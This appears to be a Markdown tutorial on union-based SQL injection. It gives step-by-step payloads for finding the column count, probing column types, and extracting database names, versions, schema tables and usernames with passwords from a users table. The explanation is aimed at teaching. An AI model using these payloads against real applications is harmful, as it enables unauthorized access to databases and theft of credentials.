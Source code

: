 In a **Union-Based SQL Injection**, the attacker leverages the `UNION` SQL operator to combine results from the original query with results from their injected query. 

When an attacker uses Union-Based SQL Injection, they attempt to combine the results of the original query with their own injected query. However, for this to work properly, certain conditions must be met:

- **Number of Columns**: The original query and the injected query must have the same number of columns.
- **Compatible Data Types**: The data types of the columns in both queries must be compatible.


---
## Cheat Sheets
It is very important to consult these resources available in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) to correctly execute an SQL injection attack after verifying its existence:
- [MySQL SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) 
- [Oracle SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)  
- [PostgreSQL SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
- [SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)


---

## 1. Determining the Number of Columns

To carry out a successful `UNION` attack, first we need to know the number of columns in the original query. This is crucial because the `UNION` operator requires both queries to have the **same number of columns** and **compatible data types** to avoid errors. There are two main methods for identifying this:

#### Using ORDER BY

By incrementally increasing the column number in `ORDER BY` clauses, we can find the number of columns by identifying when an error occurs. For example:

```sql
' ORDER BY 1 -- (no error, at least 1 column)

' ORDER BY 2 -- (no error, at least 2 columns)

' ORDER BY N -- (error 500, N exceeds the column count)
```
> Note the space after '--'

Once a certain number causes an error, we can deduce that the original query has fewer columns than this value.

#### Using UNION SELECT 

Another approach is to inject `UNION SELECT NULL` with different counts of `NULL` values, matching the number of columns until there’s no error. For example:

```sql
' UNION SELECT NULL -- (error, as more than one column is likely present)

' UNION SELECT NULL, NULL -- (no error, meaning the query likely has 2 columns)

' UNION SELECT NULL, NULL, NULL -- (error, meaning only 2 columns exist)
```

Another way to discover the number of columns in a vulnerable query is by using `' UNION SELECT` with sequential numbers.

```sql
' UNION SELECT 1 -- (error, probably more columns)

' UNION SELECT 1,2 -- (error, keep trying)

' UNION SELECT 1,2,3 -- (no error, 3 columns found)
```

Once the correct number of columns is determined, the information extraction can be executed.

## 2. Identifying Data Types for Columns

After determining the number of columns, we need to identify the data type for each column because the `UNION` operator only works when column data types match across the original and injected query. This is achieved by using `UNION SELECT` injections to test for data types one by one.

#### Methods for Testing Data Types:

- **String Data Type:** Inject a string (e.g., `'a'`) in a `NULL` placeholder to check if a column accepts text.

- **Numeric Data Type:** Use numbers in `NULL` positions to determine columns that accept integers.

- **Date Data Type:** Insert a date value (e.g., `'2023-01-01'`) to test if a column accepts dates.


For example:

```sql
' UNION SELECT 'a', NULL, NULL -- (no error means the first column is likely a text type)

' UNION SELECT NULL, 123, NULL -- (no error means the second column is likely an integer)
```

> **Important Oracle Note**:
 On **Oracle** databases, every **SELECT** statement must specify a table to select from. If your **UNION SELECT** attack does not query from a table, you will still need to include the **`FROM`** keyword followed by a valid table name. A built-in table on Oracle called `dual` can be used for this purpose: `' UNION SELECT 'abc' FROM dual --`  

## 3. Extracting Sensitive Data

Once we know the number and type of columns, they can extract sensitive data by injecting a query that retrieves this data from other tables within the database:

```sql
' UNION SELECT NULL, username, password FROM users --
```

In this example, the `username` and `password` columns are retrieved from the `users` table.

#### Additional Information Extraction

- **Obtain the current database name:**

```sql
' UNION SELECT NULL, database(), NULL -- 
```

- **Check the database version:**

```sql
' UNION SELECT NULL, version(), NULL -- 
```

- **List available tables in information_schema.tables:**
```sql
' UNION SELECT NULL, table_name, NULL FROM information_schema.tables -- 
```

- **List column names from a specific table:**

```sql
' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='users' -- 
```

